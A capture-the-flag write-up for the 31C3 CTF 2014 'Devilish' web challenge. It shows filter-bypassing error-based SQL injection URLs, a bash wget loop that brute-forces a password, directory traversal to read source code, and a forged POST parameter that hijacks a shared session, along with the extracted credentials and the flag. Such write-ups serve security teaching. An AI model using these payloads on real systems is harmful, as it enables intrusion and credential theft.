 # 31C3 CTF 2014: Devilish

**Category:** web
**Points:** 30
**Solves:** 24
**Description:**

> It’s some devilish community public portal, we’re pretty sure there’s something else out there, a private portal maby, we’d like to know the secret behind it.
> <http://188.40.18.70/>

## Write-up

_by boogy_

The web page reveals a nice vampire-style web page. After some research we can see that there is a SQL injection vulnerability in the `PROFILE` endpoint.

```
http://188.40.18.70/PROFILE/55\/||extractvalue(3,concat(0x3a,(select%0bconcat_ws(0x3a3a,id_user,Us3rN4m3)%0bfrom%0busers%0blimit%0b0,1)))--%0b
```

The font used by the web page is an icon font, so you need to view the HTML source all the time to see the error message from the SQL injection. One of our team members had the idea to disable the `gfx.downloadable_fonts.enabled` option in Firefox through `about:config`. Here’s the result before changing the setting:

![](injection-1.png)

And here is the same page after setting `gfx.downloadable_fonts.enabled` to `false`:

![](injection-2.png)

Better, isn’t it?

OK, so now we know where the injection is and we can run commands. But there’s an annoying filter that prevents us from enumerating columns: things like `information_schema`, `table`, `or`, `union` are all filtered, so we need to find a way around it. What we need is the password column name to be able to log in.

To enumerate the columns without the above keywords we can do error-based SQL injection based on a ‘duplicate keys’ error. This will enumerate the columns for us. So the final exploit for the SQL column problem is:

```
http://188.40.18.70/PROFILE/55%5C/||extractvalue%28null,concat%280x3a,%28select%09*%09from%28select%09*%09from%09users%09as%09a%09join%09users%09as%09b%09using%28id_user,Us3rN4m3,Em4iL4dR3Szz,S4cR3dT3xT0Fm3,MyPh0N3NumB3RHAHA,Addr3Zz0F_tHi5_D3wD,CHAR_LOL%29%29as%09x%29%29%29--%0B
```

This gives us:

```
Duplicate column name 'P4sWW0rD_0F_M3_WTF'
```

This is the column we need to extract the password from. So let’s do that:

```
http://188.40.18.70/PROFILE/55%5C/||extractvalue%283,concat%280x7e,%28select%09concat_ws%280x3a,Us3rN4m3,P4sWW0rD_0F_M3_WTF%29%09from%09users%09limit%091,1%29%29%29--%09
```

This gives us:

```
XPATH syntax error: '~Dracula:ZD456ddssd65456lksndoiN'
```

But when we try to log in with the password it doesn’t work. Maybe the error does not show all the chars from the password? We need to bruteforce the rest of the password with `locate()`. Here is a quick script that does just that:

```bash
#!/usr/bin/env bash
str='ZD456ddssd65456lksndoiNzd654sdsd'
while :; do
  a=0;
  echo "New string: $str";
  for i in {a..z}; do
    wget --quiet -O $i 'http://188.40.18.70/PROFILE/55%5C/||extractvalue%283,concat%280x3a,%28select%0Blocate("'$str$i'",P4sWW0rD_0F_M3_WTF)%0Bfrom%0Busers%0Blimit%0B1,1%29%29%29--%0B'
    if grep ":1" $i; then
      str=$str$i
      a=1;
      echo "$str";
    fi;
  done;
  if [ $a==1 ]; then
    for i in {0..9}; do
      wget --quiet -O $i 'http://188.40.18.70/PROFILE/55%5C/||extractvalue%283,  concat%280x3a,%28select%0Blocate("'$str$i'",  P4sWW0rD_0F_M3_WTF)%0Bfrom%0Busers%0Blimit%0B1,1%29%29%29--%0B'
      if grep ":1" $i; then
        str=$str$i
        a=1
        echo "$str";
      fi;
    done;
  fi;
  if [ $a -eq 0 ]; then
    echo "PWD:$str"
    exit;
  fi;
done;
```

This gives us Dracula’s full account password:

```
Username: Dracula
Password: ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz
```

After logging in, we found a directory traversal vulnerability that lets us understand that there is another site on the server as mentioned in the challenge description. This source code is different from the original site in `/var/www/html`. The URL
<http://188.40.18.70/ACCESS?action=browse&dir=../../../../../home/devilish.local> reveals the following files:

```
.htaccess
conf.php
images
index.php
__WebSiteFuckingPrivateContentNotForPublic666+666
style.css
```

We can also see the code source of some pages. For example, <http://188.40.18.70/__WebSiteFuckingPrivateContentNotForPublic666/LOGIN_HEAD> reveals the following code:

```php
<?php
 if(@$_SESSION['user']){header("location: ".$LINK);die();}
 if(isset($_POST['user'])){
  if(mysqli_num_rows(mysqli_query($con,"SELECT * FROM users WHERE Us3rN4m3='".mysqli_real_escape_string($con,@$_POST['user'])."' AND P4sWW0rD_0F_M3_WTF='".mysqli_real_escape_string($con,@$_POST['pass'])."' "))>0){
   $_SESSION=$_POST;
   header("location: ".$LINK);die();
  }else{
   $Error=1;
  }
 }
?>
```

And here is the `LOGIN_HEAD` from `devilish.local`:

```php
<?php
  if (@$_SESSION['is_ExclusiveMember']){header("location: ".$LINK);die();}
  if (isset($_POST['user'])){
    if (@$_POST['user']===$uLOGIN && @$_POST['pass']===$uPASSWORD){
      $_SESSION['is_ExclusiveMember']=1;
      header("location: ".$LINK);
      die();
    } else{
      $Error=1;
    }
  }
?>
```

We somehow need to access the second web site. The easiest way to do this is by adding this line to your local `/etc/hosts` file:

```bash
188.40.18.70 devilish.local
```

Now you can browse to <http://devilish.local/>. The source code for its `INDEX` page contains the following:

```php
<?php echo($logged?"Here's your secret ".$flag."":"Login to access the secret")?>
```

However, this website lacks login functionality. Maybe the two websites use the same session? Let’s go back to the first site and log in but this time we send the parameter `is_ExclusiveMember=1` in the `POST` request. Remember the code above that showed us:

```php
$_SESSION=$_POST;
```

So we use Firefox’s [Firefox Hackbar](https://addons.mozilla.org/fr/firefox/addon/hackbar/) and send this:

```
url: http://188.40.18.70/LOGIN
post: is_ExclusiveMember=1&pass=ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz&user=Dracula
```

Once we’re logged in on the first website, visiting the second website reveals a message:

```
This is the private Portal of us

If you are accessing this page this means you are one of the very few exclusive members who are allowed to come in here!

Here's your secret
31c3_Th3r3_4R3_D3v1li5h_Th0ght5_ev3N_1N_th3_M0sT_4ng3l1c_M1nd5
```

The flag is `31c3_Th3r3_4R3_D3v1li5h_Th0ght5_ev3N_1N_th3_M0sT_4ng3l1c_M1nd5`.

## Other write-ups and resources

* <http://0xboogy.blogspot.com/2014/12/31c3ctf-devilish-writeup.html>
* <http://l4w.io/2014/12/31c3-ctf-writeups/>
* <http://kitctf.de/writeups/31c3-ctf/devilish/>

